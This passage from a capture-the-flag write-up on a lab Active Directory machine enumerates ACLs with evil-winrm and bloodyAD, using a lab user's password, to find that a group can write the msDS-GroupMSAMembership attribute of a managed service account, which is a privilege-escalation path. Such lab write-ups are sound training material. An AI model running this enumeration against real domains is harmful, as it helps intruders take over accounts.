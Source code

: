 There’s a lot there, but I’ll try looking for just gMSA\_Managers’ access:

```

evil-winrm-py PS C:\> (Get-Acl "AD:\$($backupuser.DistinguishedName)").Access | Where-Object { $_.IdentityReference -like '*gMSA_Manage
r*' }

ActiveDirectoryRights : ReadProperty, GenericExecute
InheritanceType       : None
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : HAZE\gMSA_Managers
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

ActiveDirectoryRights : WriteProperty
InheritanceType       : None
ObjectType            : 888eedd6-ce04-df40-b462-b8a50e41ba38
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : HAZE\gMSA_Managers
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

```

The `ObjectType` GUID is the attribute `msDS-GroupMSAMembership` ([docs](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-ada2/c651f64d-5e92-4d12-9011-e6811ed306aa)).

#### ACL Identification Shortcuts

After solving the box, I learned that [BloodyAD](https://github.com/CravateRouge/bloodyAD) has a shortcut here:

```

oxdf@hacky$ bloodyAD --host DC01.haze.htb -d haze.htb -u mark.adams -p Ld@p_Auth_Sp1unk@2k24 get writable --detail

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=haze,DC=htb
url: WRITE
wWWHomePage: WRITE

distinguishedName: CN=Mark Adams,CN=Users,DC=haze,DC=htb
thumbnailPhoto: WRITE
pager: WRITE
mobile: WRITE
homePhone: WRITE
userSMIMECertificate: WRITE
msDS-ExternalDirectoryObjectId: WRITE
...[snip]...

distinguishedName: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
msDS-GroupMSAMembership: WRITE

```
